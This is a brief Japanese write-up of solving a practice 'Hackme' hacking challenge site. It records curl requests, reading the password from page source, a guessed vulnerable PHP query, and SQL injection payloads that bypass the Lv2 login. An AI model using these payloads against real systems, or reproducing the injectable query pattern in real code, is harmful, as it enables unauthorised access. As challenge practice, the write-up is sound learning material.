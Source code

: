 # Hackme

* http://hackme.netfire.jp/start
* beast_zer0_0303
* `trhk****`

## Lv1

* curl -L http://hackme.netfire.jp/Lv1/
  * curl で user 情報 を送信すれば webページが見れる
* curl -H
* Chrome 使っているので、メニューからソースを表示されてみたら、パスワードあった

## Lv2

* password に `'` を入れたらエラーになる
  * `Warning: pg_query() [function.pg-query]: Query failed: ERROR: syntax error at or near "'"`
* SQL インジェクション

たぶんこんなプログラム
```
$password = $_REQUEST['password'];
$result   = pg_query($conn, "select * from password where password = '{password}'");
```

* 不正解
  * `' or 1 = '1`
  * `' or 1 = '1 --`
* 正解
  * `' or 1 = 1--;`

## Lv3

* http://hackme.netfire.jp/Lv3/login にアクセスしたら
  * `cannot access : No such file or directory.` になる
